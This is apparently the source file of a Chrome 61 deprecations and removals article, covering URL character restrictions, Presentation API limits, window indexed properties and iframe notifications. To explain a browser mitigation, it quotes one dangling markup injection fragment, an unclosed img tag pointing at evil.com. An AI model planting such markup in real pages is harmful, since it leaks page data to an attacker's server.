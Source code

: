 project_path: /web/_project.yaml
book_path: /web/updates/_book.yaml
description: A round up of the deprecations and removals in Chrome 61 to help you plan. In this version, security improvements, further webkit deprecations, and more.

{# wf_blink_components: Blink>PresentationAPI,Blink>JavaScript #}
{# wf_updated_on: 2018-01-08 #}
{# wf_published_on: 2017-08-03 #}
{# wf_tags: deprecations,removals,chrome61 #}
{# wf_featured_image: /web/updates/images/generic/warning.png #}
{# wf_featured_snippet: A round up of the deprecations and removals in Chrome 61 to help you plan. In this version, more restrictions on insecure origins and a change to the shadow-piercing descendant combinator. #}

# Deprecations and Removals in Chrome 61 {: .page-title }

{% include "web/_shared/contributors/josephmedley.html" %}

In nearly every version of Chrome, we see a significant number of updates and
improvements to the product, its performance, and also capabilities of the Web
Platform. This article describes the deprecations and removals in Chrome 61,
which is in beta as of August 3. This list is subject to change at any time.

## Security and Privacy

### Block resources whose URLs contain '\n' and '&lt;' characters.

There is a type of hacking called *dangling markup injection* in which a
truncated URL is used to send data to an external endpoint. For example,
consider a page containing `<img src='https://evil.com/?`. Because the URL has no
closing quote, browsers will read to the next quote that occurs and treat the
enclosed characters as if it were a single URL.

Chrome 61 mitigates this vulnerability by restricting the character sets
allowed in `href` and `src` attributes. Specifically, Chrome will stop
processing URLs when it encounters new line characters (`\n`) and less than
characters (`<`).

Developers with a legitimate use case for new line and less than characters in a
URL should instead escape these characters.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/KaA_YNOlTPk/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/5735596811091968) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=680970)

### Deprecate and remove Presentation API on insecure contexts

It's been found that on insecure origins, the Presentation API can be used as a
hacking vector on insecure origins. Since displays don't have address bars the
API can be used to spoof content. It's also possible to exfiltrate data from
running presentation.

In aligning with Blink’s intention to [remove powerful features on insecure
origins](https://www.chromium.org/Home/chromium-security/deprecating-powerful-features-on-insecure-origins), we plan to deprecate and
remove support for the Presentation API on insecure contexts. Starting in Chrome
61, `PresentationRequest.start()` will no longer function on insecure origins.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/lumj0lVdtHA/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/5766218384408576) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=733381)

## JavaScript

### Disallow defining of indexed properties on windows

Previously some browsers allowed for JavaScript assignments like the following:

    window[0] = 1;

The [current HTML spec
notes](https://html.spec.whatwg.org/multipage/window-object.html#windowproxy-defineownproperty)
that this is an explicit violation of
the JavaScript spec. As such, this ability is removed in Chrome 61. As of
February 2016, Firefox is already in compliance.

[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=695385)

### Remove usage of notifications from insecure iframes

Note: Removal was pushed to Chrome 62.

Permission requests from iframes can confuse users since it is difficult to
distinguish between the containing page's origin and the origin of the iframe
that is making the request. When the requests scope is unclear, it is difficult
for users to judge whether to grant or deny permission.

Disallowing notifications in iframes will also align the requirements for
notification permission with that of push notifications, easing friction for
developers.

Developers who need this functionality can open a new window to request
notification permission.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/n37ij1E_1aY/discussion) &#124;
[Chromestatus Tracker](https://www.chromestatus.com/feature/6451284559265792) &#124;
[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=695693)

{% include "web/updates/_shared/deprecations-policy.html" %}

